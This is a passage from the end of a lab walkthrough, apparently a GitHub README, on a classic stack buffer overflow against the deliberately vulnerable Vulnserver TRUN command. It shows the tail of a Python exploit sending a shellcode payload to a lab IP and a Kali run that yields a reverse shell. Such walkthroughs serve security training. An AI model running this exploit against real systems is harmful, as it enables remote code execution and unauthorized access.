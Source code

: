 ```c
payload+=buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
```

Since we are running this application as a high privileged user, by running this exploit we should gain shell as the same user

Lets try running our exploit when the application is running as privileged user without debugger,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 exploit.py
```

Yay!! We have successfully gained reverse shell for our privileged user who is running that application from our target machine

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main//res/shell.png">
</div>

So this is how a classic ```VANILLA STACK BUFFER OVERFLOW``` on Windows is done, and it is easier when compared with other exploitation techniques on which the security mitigations will be enabled
